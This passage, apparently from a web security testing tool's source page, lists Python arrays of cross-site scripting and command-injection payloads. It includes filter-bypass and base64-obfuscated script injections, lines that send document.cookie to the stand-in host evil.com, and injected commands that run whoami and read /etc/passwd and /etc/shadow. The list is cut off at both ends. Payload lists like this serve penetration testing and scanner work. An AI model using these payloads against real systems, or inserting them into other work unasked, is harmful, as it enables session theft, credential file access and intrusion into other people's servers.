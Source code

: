 ```python
    # More advanced payloads...
]
```

**XSS Payloads (100+ payloads):**
```python
XSS_PAYLOADS = [
    # Basic Script Tags
    "<script>alert(1)</script>",
    "<script>alert('XSS')</script>",
    "<script>alert(String.fromCharCode(88,83,83))</script>",
    
    # Event Handlers
    "<img src=x onerror=alert(1)>",
    "<svg/onload=alert(1)>",
    "<body onload=alert(1)>",
    "<iframe onload=alert(1)>",
    
    # JavaScript URIs
    "javascript:alert(1)",
    "javascript:alert('XSS')",
    "javascript:void(alert(1))",
    
    # CSS Injection
    "<style>body{background:url('javascript:alert(1)')}</style>",
    "<link rel=stylesheet href=javascript:alert(1)>",
    
    # Filter Bypass
    "<ScRiPt>alert(1)</ScRiPt>",
    "<script>al\u0065rt(1)</script>",
    "<script>alert(String.fromCharCode(88,83,83))</script>",
    
    # DOM-based
    "<script>document.location='http://evil.com/steal.php?cookie='+document.cookie</script>",
    "<script>new Image().src='http://evil.com/steal.php?cookie='+document.cookie</script>",
    
    # Advanced Techniques
    "<script>eval(atob('YWxlcnQoMSk='))</script>",  # Base64 encoded
    "<script>Function('alert(1)')()</script>",
    "<script>setTimeout('alert(1)',0)</script>",
    
    # More payloads...
]
```

**Command Injection Payloads (100+ payloads):**
```python
CMD_PAYLOADS = [
    # Basic Commands
    "; whoami",
    "| whoami", 
    "`whoami`",
    "$(whoami)",
    "&& whoami",
    "|| whoami",
    
    # System Information
    "; uname -a",
    "; cat /etc/passwd",
    "; cat /etc/shadow",
    "; ps aux",
    "; netstat -an",
    
    # File Operations
```